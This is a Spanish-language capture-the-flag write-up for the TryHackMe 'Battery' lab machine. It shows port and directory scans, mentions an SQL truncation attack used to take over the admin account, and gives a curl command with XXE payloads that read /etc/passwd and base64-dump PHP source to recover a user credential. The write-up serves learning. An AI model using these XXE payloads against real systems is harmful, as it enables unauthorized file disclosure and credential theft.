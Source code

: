 TODO: Falta reporte de escalada de privilegios
# CTF TryHackme Baterry
![Screenshot from 2021-02-21 20-32-32](/assets/Screenshot%20from%202021-02-21%2020-32-32.png)


## Escaneando puertos 
Escaneo basico de puertos
**nmap -T5 -n -sV -F -v -oN nmap.init 10.10.70.121**
```
# Nmap 7.91 scan initiated Sun Feb 21 22:27:25 2021 as: nmap -T5 -n -sV -F -v -oN nmap.init 10.10.70.121
Nmap scan report for 10.10.70.121
Host is up (0.18s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 21 22:27:35 2021 -- 1 IP address (1 host up) scanned in 10.20 seconds
```

Enumerando los directorios:

Se utilizo la heramienta dirbuster y el reporte obtenido fue: 

```
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Sun Feb 21 22:55:04 VET 2021
--------------------------------

http://10.10.70.121:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/
/scripts/
/scripts/ie/
/admin.php/

Dirs found with a 403 response:

/.hta/
/.htaccess/
/.htpasswd/
/scripts/.hta/
/scripts/.htaccess/
/scripts/.htpasswd/
/icons/
/scripts/ie/.hta/
/scripts/ie/.htaccess/
/scripts/ie/.htpasswd/
/icons/.hta/
/icons/.htaccess/
/icons/.htpasswd/
/server-status/
/icons/small/
/icons/small/.htpasswd/
/icons/small/.hta/
/icons/small/.htaccess/


--------------------------------
Files found during testing:

Files found with a 403 responce:

/.htaccess.php
/.hta.php
/.htpasswd.php
/.hta
/.htaccess
/.htpasswd
/scripts/.hta.php
/scripts/.htaccess.php
/scripts/.htpasswd.php
/scripts/.hta
/scripts/.htaccess
/scripts/.htpasswd
/scripts/ie/.hta
/scripts/ie/.htaccess
/scripts/ie/.htpasswd
/scripts/ie/.hta.php
/icons/.hta
/icons/.htaccess
/scripts/ie/.htaccess.php
/icons/.htpasswd
/scripts/ie/.htpasswd.php
/icons/.htaccess.php
/icons/.hta.php
/icons/.htpasswd.php
/server-status
/icons/small/.hta.php
/icons/small/.hta
/icons/small/.htaccess
/icons/small/.htaccess.php
/icons/small/.htpasswd
/icons/small/.htpasswd.php

Files found with a 200 responce:

/acc.php
/admin.php
/forms.php
/register.php
/scripts/jquery.min.js
/scripts/jquery-mobilemenu.min.js
/scripts/jquery.1.9.0.min.js
/index.html
/scripts/ie/index.html
/report
/icons/README

Files found with a 302 responce:

/dashboard.php
/depo.php
/with.php
/tra.php
/logout.php

Files found with a 301 responce:

/scripts/ie
/scripts
/icons/small


--------------------------------
```


La página interesane fue **/admin.php** y **/report**

- /report tenia un binario con posibles nombres de usuario.

![Screenshot from 2021-02-21 21-54-28](/assets/Screenshot%20from%202021-02-21%2021-54-28.png)


- /admin.php tiene un formaulario de registro 


Se ataco con un SQL trucation atack.



COn este se obtivieron las credenciales de la cuenta **admin@bank.a** con lo cual logramos entrar a las partes de admin del sistema.


Encontramos una peticion con xml en la página forms.php 

![Screenshot from 2021-02-21 22-56-08](/assets/Screenshot%20from%202021-02-21%2022-56-08.png)

Enviando intentando hacer un **XXE** en la página: forms.php

**$curl -H "Content-Type: text/xml" -d @req.xml --cookie "PHPSESSID=jtqp2u2llg197f1daork8mda76" -X POST http://10.10.70.121/forms.php**

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE data [
<!ELEMENT root ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<root> 
<name>2</name> 
<search>&file;</search> 
</root>
```

Obteniendo los contenidos de los archivos .php del sitio

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE data [
<!ELEMENT root ANY>
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
]>
<root> 
<name>2</name> 
<search>&file;</search> 
</root>
```


En el archivo acc.php encontramos una credencial del usuario cyber 




